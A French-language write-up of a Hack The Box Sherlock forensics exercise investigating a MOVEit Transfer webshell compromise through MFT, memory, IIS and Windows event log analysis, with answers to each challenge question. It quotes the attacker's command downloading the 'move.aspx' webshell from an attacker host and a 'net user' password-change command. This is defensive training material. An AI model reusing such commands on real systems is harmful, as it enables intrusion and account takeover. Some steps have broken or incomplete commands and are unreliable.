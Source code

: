 # Sherlock / SOC / CTI / DFIR / IR Exercice

## Title: I-like-to

## Date: 09/10/2025

## Objective:
Le but de la chasse est d'analyser le CVE **MOVEit** dans notre systeme Windows et d'identifier leur actions malveillants pour aider à notre equipe de SOC. On a toute les sources **triage** avec les artefacts nécessaires. Voila

La vulnerabilité: `MOVEit`

## Environment / Tools Used:
* HTB Sherlocks:
* Event Viewer, strings.exe, MFTECmd.exe, Timeline Explorer, Chainsaw, grep, Powershell

## Investigation Steps:
1. Analyser les informations disponiblees dans Triage.
2. Trouver les informations sur l'Internet: **Moveit** vulnerabilité

## Findings:
1. On doit trouver le fichier: `ASPX` téléchargé par l'attaquant:
    - Pour trouver cette information, on a la source: **$MFT**
    - Ma solution: 1-> `convertir $MFT à CSV par MFTECmd.exe`; 2-> `Ouvrir cela par Timeline Explorer`
        - `.\MFTECmd.exe -f '$MFT' --csv C:\Users\vboxuser\Desktop\ --csvf mtf_parsed.csv`
    - Quand on a analysé avec `Timeline Explorer` et a recherché les fichiers: `.aspx`
    - On a trouvé qu'il y a un fichier: `move.aspx` téléchargé par l'attaquant à location: `MOVEitTransfer\wwwroot`
    - C'est suspect pour nous.
    - Voilà, la preuve:
    ![Le fichier malveillant](images/1.png)

2. On doit trouver l'IP addresse de l'attaquant:
    - Pour trouver cette information, on a la source pour utiliser: `I-like-to-27a787c5.vmem`
        - Ce fichier est `dumped` mais on ne peut utiliser cela avec **Volatility3** car il n'a pas `.vmss` partie de fichier.
    - Donc, on peut utiliser l'outil: **strings** pour trouver quelque information avec le fichier (script) malveillant **move.aspx**.
    - On a utilisé cette commande: `strings I-like-to-27a787c5.vmem | grep "move.aspx"`
        - Il nous a donné l'information de l'IP addresse de l'attaquant: `10.255.254.3`
    - Voilà, la preuve:
    ![L'IP Addresse de l'attaquant](images/2.png)

3. On doit trouver *User Agent* utilisé par l'attaquant
    - On a la source: `Web Service Logs` et on peut utiliser cela:
    - Quand on a analysé le fichier: `u_ex230712`, on a trouvé que l'attaquant utilisé le logiciel: `Ruby` pour demander les info avec `GET` methode
    - Voilà, la preuve:
    ![User Agent](images/3.png)

4. Maintenant, on doit trouver le temps téléchargé du fichier: `move.aspx`
    - Quand on a analysé la source: `$MFT` avec le mot clé: `move.aspx`
    - On a trouvé qu'il est créé le `2023/07/12 11:24:30`
    - Voilà, la preuve: Voila
    ![Le temps téléchargé du fichier malveillant](images/4.png)

5. On doit trouver la taille du fichier téléchargé par l'attaquant:
    - Ma méthode: Convertir le `$MFT` au `jason` fichier en utilisant `PowerShell`
        - `$mft=Get-Content "$MFT" | ConvertFrom-Json`
        - `$mft | Where-Object {$_.FileName -eq "movit.asp"} | Select-Object FileName, FileSize`
    - On connaît que `.asp` est l'ancienne version par rapport à l'autre.
    - Ensuite, j'ai obtenu la taille du fichier: `1362`
    - Voilà, la preuve:
    ![La taille](images/5.png)

6. On doit trouver l'outil utilisé par l'attaquant pour faire une énumération initiale:
    - Quand on a analysé le logs Web Server: `u_ex230712`, on a trouvé l'outil qui utilisé souvent pour faire les fins des énumérations initiales
    - Cet outil: `Nmap`
    - Voilà, la preuve:
    ![L'outil utilisé pour énumérations initiales](images/6.png)

7. On suspect que l'attaquant peut-être modifier le mot de passe du compte: `moveitsvc`
    - Pour trouver cette information, on doit utiliser l'ID événement: `4724` qui montre la modification ou reset du mos de passe du compte.
    - Quand on a analyser le fichier: `Security.evtx` avec l'outil: `Event Viewer`
    - On a trouvé que ce événement s'est passé le `2023-07-12 11:09:27`
    - Voilà, la preuve:
    ![La date de la modification](images/7.png)

8. L'attaquant fait une connexion remote et on doit trouver quel logiciel il a utilisé pour cela:
    - D'abbord, on connaît que l'exploitation de systeme est Windows et donc le logiciel: `RDP` et souvent utilisé.
    - On analyse la source: `Security.evtx` et on recherche l'ID: `4624` avec `Logon Type: 10` qui montre `RemoteDesktopConnection`.
    - L'outil: `Event Viewer` >> J'ai modifié le *XML* filtre et Alors
    - J'ai trouvé que le logiciel utilisé est vraiment **RDP**
    - Voilà, la preuve:
    ![Le logiciel remote](images/8.png)

9. Maintenant, on doit trouver la date de connexion par l'attaquant par **RDP**
    - Quand on a analysé la source: `Security.evtx` avec le filtre: `4624` et `Logon Type 10`, on a trouvé deux événements et
    - La date: `2023-07-12 11:11:18`
    - Voilà, la preuve:
    ![La date de connexion](images/9.png)

10. On doit trouver le *User Agent* de l'attaquant:
    - Quand on a analysé la source: **ISS Logs**, on a trouvé le fichier: `u_ex230712`
    - Dans ce fichier, il y une information de **User Agents**.
    - Plus précisement, on connaît que le webshell: `move.aspx` et donc son `User Agent` est nécessaire pour nous.
    - On a trouvé que le *User Agent* est `Mozilla/5.0+(X11;+Linux+x86_64;+rv:102.0)+Gecko/20100101+Firefox/102.0`
    - Voilà, la preuve:
    ![User Agent](images/10.png)

11. On doit trouver l'inst ID de l'attaquant
    - Pour trouver cette information, on doit analyser la source: `moveit.sql` dans `Triage/uploads/moveit.sql`
    - J'ai utilisé le **MariaDB** avec cette commande:
        ```SQL
            select LogTime, InstID, Username,IPAddress, FileName, FolderPath,
        ```
	- Ensuite, on a trouvé que l'inst ID: `1234` est associé avec l'attaquant
    ![InstID](images/11.png)

12. On doit la commande utilisé par l'attaquant pour récupérer *webshell*
    - On connaît que on peut utiliser la source: `Powershell Logs: ConsoleHost_history.txt`
    ```powershell
        notepad.exe 'Z:\tmp\cyberla\Triage\uploads\auto\C%3A\Users\moveitsvc.WIN-LR8T2EF8VHM.002\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadLine\C        onsoleHost_history.txt'
    ```
    - Quand on a analysé l'utilisateur: `moveitsvc` >> on a trouvé cette commande:
        - `wget http://10.255.254.3:9001/move.aspx -OutFile move.aspx`
    - Voilà, la preuve:
    ![La Commande pour récupérer webshell](images/12.png)


13. Maintenant, on doit trouver le titre écrit par TA:
    - D'abbord, on a recherché les événements avec `.evtx` mais il n'y a pas les infos:
    - Plus précisement, on connaît que le webshell: `move.aspx` et donc son contenu est nécessaire pour nous.
    ```bash
        grep -A15 -B15 move.aspx findings.txt | more
    ```
    - On recherché le mot clé: `title` et a trouvé ce titre: `awen asp.net webshell`
    - Voilà, la preuve:
    ![Titre](images/13.png)

14. On doit trouver le mot de passe modifié par TA
    - Pour trouver cette info: on a analysé: **Powershell Logs: ConsoleHost_history.txt** mais il n'y a pas.
    - On a la source: `i-like-to.vmem` et on peut analyser cette mémoire.
    - Le moment clé est que on doit rechercher le compte: `moveitsvc`
    - L'outil: **strings** et `grep`, `sort,` `uniq`. Mes commandes:
    ```bash
	    strings i-like-to.vmem > findings.txt
	    grep moveitsvc findings.txt | sort | uniq -c | sort -n
    ```
    - Après, on a analysé la source: `i-like-to.vmem` et a trouvé la commande: `net user` qui peut-être utilisé pour modifier le mot de passe de compte.
    - Et cela est notre réponse: `net user 5trongP4ssw0rd`
    - Voilà, la preuve:

## Key Learning / Takeaway:
1. Les fichiers: **.aspx** >> webshell >> ils peuvent contenir script pour le framework Microsoft: **ASP.NET**
    - *une page web générée à l'aide du framework Microsoft ASP.NET exécuté sur des serveurs web*
    - *asp* est 'ancienne version et *aspx* est nouvelle version.

2. Event ID`4724` est d'enregistrer quand le mot de passe compte est essayé de modifier par quelqu'un. Voila

3. La vulnerabilité: **MOVEitTransfer** avec l'attaque: **SQL Injection**

## Voilà:
- **Voilà, ça y est, c'est fini:** `https://labs.hackthebox.com/achievement/sherlock/2118023/553`
